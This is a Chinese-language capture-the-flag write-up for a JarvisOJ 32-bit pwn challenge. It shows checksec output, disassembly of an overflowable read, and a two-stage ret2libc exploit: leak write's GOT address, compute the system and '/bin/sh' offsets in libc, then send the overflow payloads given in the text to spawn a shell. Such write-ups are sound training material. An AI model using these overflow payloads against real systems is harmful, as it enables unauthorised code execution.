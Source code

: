# Description

nc pwn2.jarvisoj.com 9880

没有lib库

# checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000) 
```
开了NX
# analysis

```
.text:0804844B                 public vulnerable_function
.text:0804844B vulnerable_function proc near           ; CODE XREF: main+11p
.text:0804844B
.text:0804844B buf             = byte ptr -88h
.text:0804844B
.text:0804844B                 push    ebp
.text:0804844C                 mov     ebp, esp
.text:0804844E                 sub     esp, 88h
.text:08048454                 sub     esp, 4
.text:08048457                 push    7               ; n
.text:08048459                 push    offset aInput   ; "Input:\n"
.text:0804845E                 push    1               ; fd
.text:08048460                 call    _write
.text:08048465                 add     esp, 10h
.text:08048468                 sub     esp, 4
.text:0804846B                 push    100h            ; nbytes
.text:08048470                 lea     eax, [ebp+buf]
.text:08048476                 push    eax             ; buf
.text:08048477                 push    0               ; fd
.text:08048479                 call    _read
.text:0804847E                 add     esp, 10h
.text:08048481                 nop
.text:08048482                 leave
.text:08048483                 retn
.text:08048483 vulnerable_function endp
```
溢出点其本身没有什么大变化

由于没有给其他的东西，程序小ROP不方便，所以ret2lib、

# exploit

第一步打出got write 地址
栈布置：
0x88 * padding
4 * padding ebp
func:write  addr
ret: write ret addr 继续利用
parameter: 1
parameter: 2
parameter: 3

第二步计算出 system 地址 "/bin/sh" 地址
```
➜  level3 : readelf -a libc-2.19.so | grep "read@"
  950: 000daf60   125 FUNC    WEAK   DEFAULT   12 read@@GLIBC_2.0

➜  level3 : readelf -a libc-2.19.so | grep "system@"
 1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```

```
➜  level3 : strings -a -t x ./libc-2.19.so | grep "/bin/sh"
 16084c /bin/sh
```

第三步: 二次溢出获得shell

0x88 * padding + 4 * padding + func_system + 4 * padding + shell_addr

# payload
```
   payload1 = 0x88 * "A" + 4 * "A" + p32(write_plt) + p32(write_ret)+p32(write_parameter_1)+p32(write_parameter_2)+p32(write_parameter_3)
   //calcualte
   payload2 = 0x88 * "A" + 4 * "A" + p32(func_system) + 4*"A" + p32(shell_addr)
```

对于我来说 这是一次挑战!
